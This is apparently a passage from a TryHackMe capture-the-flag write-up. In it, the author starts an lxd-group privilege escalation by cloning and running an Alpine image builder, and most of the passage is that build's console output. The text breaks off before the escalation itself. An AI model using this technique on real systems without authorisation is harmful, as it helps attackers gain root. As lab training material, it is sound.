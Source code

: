 This user seems to have sudo privileges, but we don't have a password for it.

It also has lxd, so we can privesc through that.

Steps:

1.

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ git clone https://github.com/saghul/lxd-alpine-builder.git

2.

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs$ cd lxd-alpine-builder/

3. 

kali@kali-[10.8.82.167]:~/labs/tryhackme/anonymous/docs/lxd-alpine-builder$ sudo ./build-alpine
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://dl-8.alpinelinux.org/alpine/v3.12/main
fetch http://dl-8.alpinelinux.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r9)
(2/19) Installing busybox (1.31.1-r19)
Executing busybox-1.31.1-r19.post-install
(3/19) Installing alpine-baselayout (3.2.0-r7)
Executing alpine-baselayout-3.2.0-r7.pre-install
Executing alpine-baselayout-3.2.0-r7.post-install
(4/19) Installing openrc (0.42.1-r11)
Executing openrc-0.42.1-r11.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1g-r0)
(7/19) Installing libssl1.1 (1.1.1g-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)